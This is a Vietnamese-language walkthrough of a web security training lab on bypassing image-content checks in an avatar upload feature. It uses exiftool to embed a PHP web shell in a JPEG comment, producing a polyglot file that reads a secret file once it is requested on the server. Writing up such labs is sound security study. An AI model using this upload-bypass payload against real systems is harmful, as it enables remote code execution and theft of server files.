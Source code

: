 # Lab: Remote code execution via polyglot web shell upload

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Mặc dù file tải lên sẽ được kiểm tra `content-type` để đảm bảo đúng là file hình ảnh nhưng vẫn sẽ có cách bypass việc kiểm tra này
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file `exploit.php` với nội dung `<?php echo file_get_contents('/home/carlos/secret') ?>` thì nhận được phản hồi ***Error: file is not a valid image Sorry, there was an error uploading your file.***

Trang web đã chặn việc tải lên file không phải hình ảnh mặc dù đã thử các cách bypass của những lab trước nhưng vẫn không thành công. Vì trang web kiểm tra nội dung file nên không thể bypass bằng các cách trên mà phải thay đổi nội dung file bằng exiftool để vượt qua lần kiểm tra của trang web.

Chọn 1 bức ảnh bất kỳ, ở đây mình chọn ảnh ava.jpg. Chạy command 

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ava.jpg -o polyglot.php` 

Và nhận thấy có 1 file `polyglot.php` được tạo

>![](2.png)

Lúc này thì upload file polyglot này lên thì trang web báo up file thành công `The file avatars/polyglot.php has been uploaded.`

Bắt request bằng burp và chuyển sang tab repeater để mở file php vừa up.

`GET files/avatars/polyglot.php` 

>![](3.png)



